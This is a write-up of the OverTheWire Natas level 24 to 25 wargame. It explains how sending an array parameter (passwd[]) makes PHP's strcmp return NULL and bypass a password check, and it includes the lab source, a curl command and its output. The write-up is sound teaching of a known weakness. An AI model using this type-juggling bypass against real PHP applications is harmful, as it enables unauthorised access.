

# Natas — Level 24 → 25

**Category:** OverTheWire / Natas  
**Difficulty:** Medium  
**Date:** 2026-08-28

## Goal

Another single password field:

## Solution

The source looked almost identical to level 23, but with a stricter-looking check:

    if(array_key_exists("passwd", $_REQUEST)) {
        if(!strcmp($_REQUEST["passwd"], "<censored>")) {
            echo " The credentials for the next level are: ";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        } else {
            echo " Wrong! ";
        }
    }
    // morla / 10111

![Source showing !strcmp($_REQUEST["passwd"], "<censored>") as the only check](images/natas-24-25-source.png)

`strcmp()` expects two strings, but PHP doesn't enforce that at the type level — passing an array instead just triggers a warning and makes the function return `NULL`. `!NULL` is `true`, so the condition passes without ever comparing anything to the real password. Submitting `passwd` as an empty array (`passwd[]` in the query string) does exactly that:

    curl -u natas24:<password> "http://natas24.natas.labs.overthewire.org/?passwd[]"

    Warning: strcmp() expects parameter 1 to be string, array given in /var/www/natas/natas24/index.php on line 23
    The credentials for the next level are:
    Username: natas25 Password: [REDACTED]

![curl passing passwd[] as an array, triggering the strcmp() warning and bypassing the check](images/natas-24-25-curl.png)

## Result

    Username for natas25: natas25
    Password for natas25: [REDACTED]

## Key Takeaway

`!strcmp(a, b)` is a common way to check string equality in PHP, but `strcmp()` returning `NULL` on a type mismatch (instead of throwing or returning something not falsy) means an array input flips the check to "equal" by accident. `param[]` in a query string is enough to turn a scalar `$_REQUEST` value into an array and trigger this — the same trick that breaks a lot of loosely-typed PHP comparison functions.
